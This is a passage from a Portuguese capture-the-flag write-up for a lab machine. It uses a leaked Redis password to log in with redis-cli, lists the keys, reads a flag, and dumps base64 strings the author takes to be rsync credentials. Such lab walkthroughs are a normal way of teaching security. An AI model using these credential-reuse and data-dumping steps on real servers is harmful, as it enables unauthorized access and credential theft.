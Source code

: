 ![alt text](/assets/img/internal/internal2.png)
requirepass "B65Hx562F@ggAZ@F"


### Conectando no redis porta 6379
`KEYS *`
```shell
╰─ redis-cli -h 10.10.141.166 -a B65Hx562F@ggAZ@F
Warning: Using a password with '-a' or '-u' option on the command line interface may not be safe.
10.10.141.166:6379> help
redis-cli 7.0.15
To get help about Redis commands type:
      "help @<group>" to get a list of commands in <group>
      "help <command>" for help on <command>
      "help <tab>" to get a list of possible help topics
      "quit" to exit

10.10.141.166:6379> KEYS *
1) "tmp"
2) "marketlist"
3) "authlist"
4) "internal flag"
5) "int"
```
{: .nolineno }
### Segunda Flag
`get "internal flag"`  

![alt text](/assets/img/internal/internal3.png)

```shell
10.10.141.166:6379> LRANGE authlist 1 1000
1) "QXV0aG9yaXphdGlvbiBmb3IgcnN5bmM6Ly9yc3luYy1jb25uZWN0QDEyNy4wLjAuMSB3aXRoIHBhc3N3b3JkIEhjZzNIUDY3QFRXQEJjNzJ2Cg=="
2) "QXV0aG9yaXphdGlvbiBmb3IgcnN5bmM6Ly9yc3luYy1jb25uZWN0QDEyNy4wLjAuMSB3aXRoIHBhc3N3b3JkIEhjZzNIUDY3QFRXQEJjNzJ2Cg=="
3) "QXV0aG9yaXphdGlvbiBmb3IgcnN5bmM6Ly9yc3luYy1jb25uZWN0QDEyNy4wLjAuMSB3aXRoIHBhc3N3b3JkIEhjZzNIUDY3QFRXQEJjNzJ2Cg=="
```
{: .nolineno }
Aparentemente base64  
Credenciais rsync